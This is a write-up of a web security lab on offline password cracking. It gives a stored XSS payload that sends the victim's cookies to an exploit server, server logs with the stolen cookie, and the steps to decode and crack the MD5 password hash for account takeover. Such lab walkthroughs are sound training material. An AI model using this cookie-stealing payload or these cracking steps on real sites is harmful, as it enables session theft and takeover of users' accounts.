




# Offline password cracking
This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.

* Your credentials: `wiener:peter`
* Victim's username: `carlos`

## Solution
As we log in as `wiener`, we can find the cookie `stay-logged-in`, which is again Base64 encoded and contains the username and the password MD5 hashed.

Since we know that the system has a XSS vulnerability in the comment section of the posts, we can create a payload that steals this cookie from the user. We are given an exploit server in this lab as well:



A possible payload can look like this:
```js
<script>let cookie = document.cookie;window.location.replace("https://exploit-0aec001b03936b9680c37fb2014b0005.exploit-server.net/exploit" + cookie);</script>
```

With that we could create such a comment:



If we check now the logs of the exploit server, we find this entry:
```
10.0.3.107      2024-09-10 14:48:42 +0000 "GET /exploitstay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz;%20secret=NAZ652h8HNTwZr2hVTZOeDyi5rEze406 HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

The other entries where my test accesses and got a public IP. For example, this would be the entry if we access the post as `wiener`:
```
XXX.XXX.XXX.XXX  2024-09-10 14:48:51 +0000 "GET /exploitstay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36"
```

The cookie can be verified with the HTTP traffic, a browser extension or if we decode it. Latter, we will do for the cookie, that we received from the private IP: `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`

Base64 decoded we got the value `carlos:26323c16d5f4dabff3bb136f2460a943` and if we enter the hash into [CrackStation](https://crackstation.net/) we find the corresponding password `onceuponatime`:



With the credentials, we can now log in as `carlos`, hit "Delete account" and confirm it with the password:



If we do so, the lab will be solved:


